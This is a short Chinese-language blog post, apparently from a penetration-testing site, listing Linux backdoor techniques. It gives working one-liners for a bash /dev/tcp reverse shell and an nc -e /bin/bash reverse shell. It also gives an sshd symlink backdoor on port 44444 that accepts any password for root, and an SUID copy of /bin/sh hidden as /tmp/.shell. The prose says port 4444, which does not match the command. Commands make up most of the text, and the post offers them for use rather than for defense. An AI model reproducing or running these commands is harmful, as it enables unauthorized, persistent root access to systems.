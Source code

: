 ```yaml
---
title: "Linux 的几种后门"
date: 2018-01-26T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['linux']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


Linux 的 bash nc ssh SUID 后门

<!--more-->

### bash

`bash -i >& /dev/tcp/ip/port 0>&1`

### nc

`nc ip port -e /bin/bash`

nc 可以从源码编译.

`./configure --prefix=/tmp/nc && make && make install`

### ssh 后门

`ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=44444;`

连接 4444 用 root/bin/ftp/mail 当用户名 密码随意.

### SUID 后门

执行用户会获得该文件所有者的权限.

`cp /bin/sh /tmp/.shell && chmod 4755 /tmp/.shell`

执行 /tmp/.shell -p 即可获得 root 权限.
